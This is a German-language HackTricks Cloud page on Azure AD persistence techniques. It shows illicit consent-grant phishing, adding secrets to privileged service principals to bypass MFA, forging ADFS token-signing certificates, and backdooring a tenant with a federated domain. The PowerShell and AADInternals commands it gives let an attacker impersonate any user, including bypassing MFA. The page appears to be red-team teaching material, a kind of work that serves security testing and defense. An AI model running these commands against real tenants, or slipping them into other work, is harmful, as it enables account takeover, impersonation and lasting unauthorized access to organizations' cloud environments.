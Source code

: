 # Az - Persistence

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

### Illegale Zustimmungserteilung

Standardmäßig kann sich jeder Benutzer in Azure AD eine Anwendung registrieren. So kannst du eine Anwendung (nur für den Ziel-Mandanten) registrieren, die hohe Berechtigungen mit administrativer Zustimmung benötigt (und sie genehmigen, wenn du der Administrator bist) - wie das Versenden von E-Mails im Namen eines Benutzers, Rollenmanagement usw. Dies ermöglicht es uns, **Phishing-Angriffe** durchzuführen, die im Erfolgsfall sehr **ertragreich** wären.

Darüber hinaus könntest du auch diese Anwendung mit deinem Benutzer akzeptieren, um den Zugriff darauf aufrechtzuerhalten.

### Anwendungen und Dienstprinzipale

Mit den Rechten eines Anwendungsadministrators, GA oder einer benutzerdefinierten Rolle mit microsoft.directory/applications/credentials/update Berechtigungen können wir Anmeldeinformationen (Geheimnis oder Zertifikat) zu einer bestehenden Anwendung hinzufügen.

Es ist möglich, **eine Anwendung mit hohen Berechtigungen zu zielen** oder **eine neue Anwendung** mit hohen Berechtigungen hinzuzufügen.

Eine interessante Rolle, die der Anwendung hinzugefügt werden könnte, wäre die **Rolle des privilegierten Authentifizierungsadministrators**, da sie es ermöglicht, das **Passwort** von globalen Administratoren zurückzusetzen.

Diese Technik ermöglicht es auch, **MFA zu umgehen**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Für die authentifizierung basierend auf Zertifikaten

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

Mit **DA-Rechten** auf dem lokalen AD ist es möglich, **neue Token-Signierungs**- und **Token-Entschlüsselungszertifikate** zu erstellen und zu importieren, die eine sehr lange Gültigkeit haben. Dies ermöglicht es uns, **uns als jeden Benutzer** anzumelden, dessen ImuutableID wir kennen.

**Führen** Sie den folgenden Befehl als **DA auf dem ADFS-Server(n)** aus, um neue Zertifikate zu erstellen (Standardpasswort 'AADInternals'), fügen Sie sie zu ADFS hinzu, deaktivieren Sie die automatische Rollierung und starten Sie den Dienst neu:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Dann aktualisieren Sie die Zertifikatsinformationen mit Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Vertrauenswürdige Domäne

Mit GA-Rechten auf einem Mandanten ist es möglich, eine **neue Domäne hinzuzufügen** (muss verifiziert werden), ihren Authentifizierungstyp auf Federated zu konfigurieren und die Domäne so zu konfigurieren, dass sie **ein bestimmtes Zertifikat** (any.sts im folgenden Befehl) und Aussteller vertraut:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referenzen

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
